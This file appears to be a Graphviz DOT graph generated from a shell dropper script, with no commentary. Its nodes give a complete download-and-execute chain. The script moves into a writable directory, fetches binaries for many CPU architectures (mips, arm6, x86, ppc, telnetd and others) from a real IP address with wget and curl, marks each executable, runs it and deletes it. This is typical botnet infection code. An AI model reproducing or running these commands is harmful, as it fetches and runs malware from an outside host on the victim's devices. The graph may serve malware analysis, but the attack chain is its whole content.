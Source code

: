 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://192.243.96.146/mips "];
10 -> 12 [label=";,"];
12 [label="curl -O http://192.243.96.146/mips "];
12 -> 14 [label=";,"];
14 [label="chmod +x mips "];
14 -> 16 [label=";,"];
16 [label="./mips "];
16 -> 18 [label=";,"];
18 [label="rm -rf mips "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://192.243.96.146/mipsel "];
30 -> 32 [label=";,"];
32 [label="curl -O http://192.243.96.146/mipsel "];
32 -> 34 [label=";,"];
34 [label="chmod +x mipsel "];
34 -> 36 [label=";,"];
36 [label="./mipsel "];
36 -> 38 [label=";,"];
38 [label="rm -rf mipsel "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://192.243.96.146/sh4 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://192.243.96.146/sh4 "];
52 -> 54 [label=";,"];
54 [label="chmod +x sh4 "];
54 -> 56 [label=";,"];
56 [label="./sh4 "];
56 -> 58 [label=";,"];
58 [label="rm -rf sh4 "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://192.243.96.146/x86 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://192.243.96.146/x86 "];
72 -> 74 [label=";,"];
74 [label="chmod +x x86 "];
74 -> 76 [label=";,"];
76 [label="./x86 "];
76 -> 78 [label=";,"];
78 [label="rm -rf x86 "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://192.243.96.146/arm6 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://192.243.96.146/arm6 "];
92 -> 94 [label=";,"];
94 [label="chmod +x arm6 "];
94 -> 96 [label=";,"];
96 [label="./arm6 "];
96 -> 98 [label=";,"];
98 [label="rm -rf arm6 "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://192.243.96.146/wget "];
110 -> 112 [label=";,"];
112 [label="curl -O http://192.243.96.146/wget "];
112 -> 114 [label=";,"];
114 [label="chmod +x wget "];
114 -> 116 [label=";,"];
116 [label="./wget "];
116 -> 118 [label=";,"];
118 [label="rm -rf wget "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://192.243.96.146/ppc "];
130 -> 132 [label=";,"];
132 [label="curl -O http://192.243.96.146/ppc "];
132 -> 134 [label=";,"];
134 [label="chmod +x ppc "];
134 -> 136 [label=";,"];
136 [label="./ppc "];
136 -> 138 [label=";,"];
138 [label="rm -rf ppc "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://192.243.96.146/ftp "];
150 -> 152 [label=";,"];
152 [label="curl -O http://192.243.96.146/ftp "];
152 -> 154 [label=";,"];
154 [label="chmod +x ftp "];
154 -> 156 [label=";,"];
156 [label="./ftp "];
156 -> 158 [label=";,"];
158 [label="rm -rf ftp "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://192.243.96.146/pftp "];
170 -> 172 [label=";,"];
172 [label="curl -O http://192.243.96.146/pftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x pftp "];
174 -> 176 [label=";,"];
176 [label="./pftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf pftp "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://192.243.96.146/neo "];
190 -> 192 [label=";,"];
192 [label="curl -O http://192.243.96.146/neo "];
192 -> 194 [label=";,"];
194 [label="chmod +x neo "];
194 -> 196 [label=";,"];
196 [label="./neo "];
196 -> 198 [label=";,"];
198 [label="rm -rf neo "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://192.243.96.146/slacka "];
210 -> 212 [label=";,"];
212 [label="curl -O http://192.243.96.146/slacka "];
212 -> 214 [label=";,"];
214 [label="chmod +x slacka "];
214 -> 216 [label=";,"];
216 [label="./slacka "];
216 -> 218 [label=";,"];
218 [label="rm -rf slacka "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://192.243.96.146/razor "];
230 -> 232 [label=";,"];
232 [label="curl -O http://192.243.96.146/razor "];
232 -> 234 [label=";,"];
234 [label="chmod +x razor "];
234 -> 236 [label=";,"];
236 [label="./razor "];
236 -> 238 [label=";,"];
238 [label="rm -rf razor "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://192.243.96.146/telnetd "];
250 -> 252 [label=";,"];
252 [label="curl -O http://192.243.96.146/telnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x telnetd "];
254 -> 256 [label=";,"];
256 [label="./telnetd "];
256 -> 257 [label=";,"];
}

